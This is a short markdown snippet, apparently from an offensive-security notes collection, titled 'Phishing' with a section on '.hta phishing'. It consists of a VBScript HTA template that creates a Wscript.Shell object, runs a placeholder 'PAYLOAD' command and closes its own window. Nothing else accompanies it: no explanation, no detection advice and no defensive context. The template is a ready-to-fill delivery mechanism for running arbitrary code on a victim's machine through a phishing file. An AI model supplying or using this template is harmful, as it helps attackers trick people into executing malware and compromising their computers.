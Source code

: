 # Phishing

## .hta phishing

```vbscript
<script language="VBScript">
  Function Update()
    Dim yz
    Set yz = CreateObject("Wscript.Shell")
    yz.run "PAYLOAD"
    Set yz = Nothing
  End Function
  
  Update
  self.close
</script>
```

